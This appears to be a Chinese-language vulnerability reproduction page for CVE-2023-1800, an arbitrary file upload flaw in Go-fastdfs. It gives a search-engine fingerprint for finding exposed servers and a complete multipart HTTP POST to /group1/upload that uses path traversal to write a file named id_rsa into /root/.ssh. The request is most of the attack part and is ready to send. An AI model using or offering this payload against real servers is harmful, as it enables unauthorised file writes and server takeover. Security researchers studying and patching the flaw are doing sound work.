 # Go-fastdfs upload 任意文件上传漏洞 CVE-2023-1800

## 漏洞描述

Go-fastdfs upload 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，攻击服务器

## 漏洞影响

<a-checkbox checked>Go-fastdfs </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"go-fastdfs"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1680944897657-800f832f-0834-4ac3-bf45-bd1f208326a4.png)

验证POC

```plain
POST /group1/upload HTTP/1.1
Host: 
Content-Length: 951
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryigj9M9EJykZc9u53
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="file"; filename="id"
Content-Type: application/octet-stream

test
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="scene"

default
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="filename"

id_rsa
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="output"

json2
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="path"

../../../../../root/.ssh
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="code"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="auth_token"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryigj9M9EJykZc9u53--
```

![img](../../../.vuepress/public/img/1680945913939-8a4b54a3-9866-4b15-9597-f85fe6f96d87.png)

![img](../../../.vuepress/public/img/1680945923699-7cf43053-bf59-4441-890e-cfe4e0c37463.png)